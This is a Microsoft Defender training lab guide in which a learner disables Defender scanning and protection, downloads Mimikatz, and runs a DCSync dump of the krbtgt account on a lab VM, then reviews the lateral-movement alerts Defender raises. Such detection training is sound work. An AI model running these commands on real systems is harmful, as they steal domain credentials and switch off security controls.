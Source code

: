 # Lab 14: Simulate and Detect Lateral Movement Attacks

## Overview

In this lab, you will simulate a Lateral Movement attack using the Mimikatz tool and detect it through Microsoft Defender for Identity. This task should only be performed in a controlled environment, running the attack will trigger Defender’s containment measures, logging you out of the virtual machine and preventing re-login for security reasons.

> **⚠ Important Usage Guidance:** Microsoft Defender for Office 365 may take some time to load certain results or complete specific labs from the backend. This is expected behavior. If the data does not appear after a couple of refresh attempts, proceed with the next lab and return later to check the results..

1. In Azure portal, Search for **Virtual machines (1)** and select **Virtual machines (2)**.

      ![VMrdp](../media/vm.png)

1. Select the virtual machine **s2vm-<inject key="DeploymentID" enableCopy="false" />** from the list.
   
      ![VMrdp](../media/xdr26.png)

1. At the beginning of the virtual machine page, click on **Connect (1)**, and from the drop-down select **Connect (2)**.

      ![VMrdp](../media/xdr27.png)

1. On the Connect to Virtual Machine page, select RDP, Choose the option to **Download RDP File.**

      ![VMrdp](../media/xdr28upd.png)

      >**Note:** You might see the warning option while downloading the rdp file. please click on **keep.**

1. Open the downloaded RDP file from the downloads.

      ![VMrdp](../media/xdr23.png)

1. Select Connect when prompted. You will get a warning that the .rdp file is from an unknown publisher. This is expected. In the Remote Desktop Connection window, select Connect to continue.

      ![VMrdp](../media/vm8.png)
   
1. In the Windows Security window, select **More Choices.**

      ![VMrdp](../media/xdr24.png)

 1. Then Use a different account. Enter **Username:** <inject key="Labvm Admin Username"></inject> **(1)** and **Password:** <inject key="Labvm Admin Password"></inject> **(2)** and then select **OK (3).**

      ![VMrdp](../media/vm6.png)

1. Select **Yes** to verify the identity of the virtual machine and finish logging on.

      ![VMrdp](../media/vm7.png)

1. You should now be connected to the virtual machine via Remote Desktop.

1. Open **PowerShell (Administrator)** from Windows search.

      ![image](../media/attack1.png)

1. Run the following command to create a folder named `Tools` and add it as an exclusion in Microsoft Defender so that files inside this folder are not scanned.

      ```shell
      New-Item -ItemType Directory -Force -Path "C:\Tools"
      ```

      ```
      Add-MpPreference -ExclusionPath "C:\Tools
      ```

1. Run the below command to download the Mimikatz tool in `C:\Tools` folder.

      ```
      cd C:\Tools
      ```

      ```
      git clone https://github.com/ParrotSec/mimikatz
      ```
    > **Note:** Mimikatz is an open-source tool primarily designed to extract authentication credentials from the memory of Windows operating systems

      ![image](../media/attack13.png)

1. Navigate to the below mentioned directory in Powershell.

      ```powershell
      cd mimikatz\x64
      ```

1. In the same PowerShell session, run the below command to run the mimikatz application

     ```powershell
     mimikatz.exe 
     ```

1. Simulate a DC Sync attack and extract the credentials of the krbtgt account.

      ```shell
      lsadump::dcsync /domain:defenderxdr.internal /user:krbtgt
      ```

      > **Note:** If you see an error message indicating that the command failed, it is due to antivirus, perform the below steps and then run **step 16**again

      > 1. Navigate to Windows Security and click on **Virus & threat protection**.
      ![image](../media/attack1n1.png)

      > 2. Turn off **Real-time protection (1)** and **Cloud-delivered protection (2)**
      ![image](../media/attack1n2.png)

1. Once this command executes, Microsoft Defender’s attack disruption feature will log the user out of the Virtual Machine and prevent them from logging back in. It may take about 10-15 minutes to log out, please wait

1. Now, go back to **svm-<inject key="DeploymentID" enableCopy="false"/>** virtual machine and check your alerts in the Microsoft Defender portal, navigate to **Incidents & alerts** in the left-hand navigation pane.

      ![](../media/E1T3S3upd1.png)

1. Navigate to **Incidents** and review the incident with the tag **Lateral Movement**.

   ![](../media/E1T3S3upd2.png)

1. Click **Alerts** to view the alerts queue.

1. You will find alerts with the below names
     - **Lateral movement using remote logon by contained user blocked**
     - **Lateral movement using RDP blocked**

       ![](../media/E1T3S3upd.png)

      > **Note:** The user will be logged out of the virtual machine as part of the containment measures initiated by the Defender in response to the user's attempted lateral movement attack.

## Review

In this lab, you have completed the following:
- Launched the Mimikatz tool from PowerShell (Admin) to simulate a DC Sync attack.
- Attempted to extract the credentials of the `krbtgt` account.
- Observed automatic containment measures initiated by Microsoft Defender for Identity.
- Verified alerts in the Microsoft Defender portal for blocked lateral movement attempts via remote logon and RDP.

## You have successfully completed the lab. Click on Next to Continue
